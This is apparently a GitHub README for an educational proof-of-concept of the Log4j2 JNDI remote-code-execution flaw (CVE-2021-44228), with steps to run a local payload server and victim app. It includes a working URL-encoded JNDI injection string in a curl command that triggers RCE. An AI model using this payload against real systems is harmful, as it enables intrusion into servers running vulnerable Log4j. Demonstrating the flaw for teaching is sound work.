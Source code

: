 # Log4j2 RCE Vulnerability POC

A bare minimum proof-of-concept for Log4j2 JNDI Remote-Code-Execution vulnerability (CVE-2021-44228). This is intended
for education purpose to help people who are not security researchers to understand how it works and how large the
impact is.

## Prerequisites

- JDK 1.8

Note: JDK 1.8 is required for `payload-server` to compile, but the `victim-app` is vulnerable up until JDK 15 because the Nashorn engine was removed in JDK 15.

## To Test

1. Start the `payload-server` by running:

```console
$ ./gradlew runPayloadServer
```

2. Open a new terminal session then start the `victim-app`:

```console
$ ./gradlew runVictimApp
```

3. Run `curl http://localhost:8080/hello?name=%24%7Bjndi%3Armi%3A%2F%2F127.0.0.1%3A8099%2Fexec%7D` to trigger the RCE.
4. To proof the remote code has been executed, check the console log of `victim-app`. You should see an unintended log
   has been printed on the screen.
